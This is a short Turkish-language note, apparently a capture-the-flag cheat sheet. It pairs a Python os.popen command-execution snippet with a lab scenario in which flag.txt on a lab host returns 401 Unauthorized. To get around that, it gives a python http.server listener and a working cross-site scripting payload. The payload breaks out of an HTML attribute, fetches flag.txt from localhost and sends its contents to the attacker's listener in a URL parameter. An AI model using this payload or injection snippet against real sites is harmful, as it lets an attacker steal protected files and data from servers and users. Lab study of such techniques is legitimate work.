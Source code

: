 Python saldırılarında bunu kullan
import os; print(os.popen("ls -l").read())


#linuxda sunucu dinleme 
senaryo: http://10.10.49.186:8080/flag.txt 
buradaki flagı okumak gerekiyor ama flag.txt yi almamız gerekiyor  ama 401 unauthorized veriliyor

python3 -m http.server 8000

'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://0.0.0.0:8000/?flag=' + encodeURIComponent(data));
    });
</script>

